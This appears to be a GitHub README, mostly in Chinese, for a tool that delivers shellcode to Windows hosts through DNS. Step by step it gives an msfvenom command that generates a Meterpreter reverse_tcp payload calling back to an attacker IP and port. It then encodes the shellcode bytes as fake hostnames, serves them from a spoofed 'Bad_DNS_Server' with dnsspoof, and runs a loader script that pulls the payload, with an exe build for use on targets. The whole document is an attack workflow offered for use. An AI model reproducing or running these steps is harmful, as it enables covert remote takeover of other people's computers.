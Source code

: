 # DNS_shellcode
DNS_shellcode分离传输脚本
## step.1
- msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp lhost=192.168.32.133 lport=5555 -f c > /root/safe/payload.txt

## step.2
将shellcode制作成  IP+地址 的格式
Ipaddress "{payload}.domain.com"
- 1.1.1.0 "0xfc0x480x830xe40xf00xe8.1.com"
- 1.1.1.1 "0xbc0xc80x130xff0x100x08.1.com"

python格式化脚本可参见项目script_format.py

## step.3
#### DNS_Server
- dnsspoof -i eth0 -f dns.txt
listening msf

## setp.4
Execute this python_scripts and input Your Bad_DNS_Server_IP
- python DNS_shellcode.py -o 192.168.1.1

## 更新日志
2020/2/12

狗林说双方无交互下无法input，改命令格式+pyinstaller的exe格式。

更新命令格式
- python DNS_shellcode.py -o 192.168.1.1
